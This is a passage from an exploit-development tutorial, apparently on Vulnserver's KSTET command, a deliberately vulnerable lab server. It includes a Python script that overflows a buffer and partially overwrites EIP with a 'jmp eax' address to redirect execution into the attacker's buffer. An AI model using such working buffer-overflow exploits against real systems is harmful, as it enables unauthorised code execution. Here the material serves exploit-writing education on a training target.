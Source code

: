 ```python
print s.recv(1024)
s.close()
```

If we run the above script, EIP will be overwritten by our 4 B's. We also notice EAX points to the start of our buffer:
![eax buffer](/images/eax-buffer.png)

We'll replace the `B`'s with a `jmp eax` instruction to land straight into our buffer. We find one in the main vulnserv module (vulnserver.exe) at `0040100C`. We can avoid the null byte by performing a three-byte overwrite of EIP. Our exploit now looks as follows:

```python
#!/usr/bin/python

import sys
import socket

buf = "KSTET "
buf += "A"*70
buf += "\x0C\x10\x40" #eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.12",9999))
print s.recv(1024)
s.send(buf)
print s.recv(1024)
s.close()
```
If we set a breakpoint on `0040100C` and run our exploit, we'll see our EIP overwrite is succesful and we are now directed straight into our buffer:
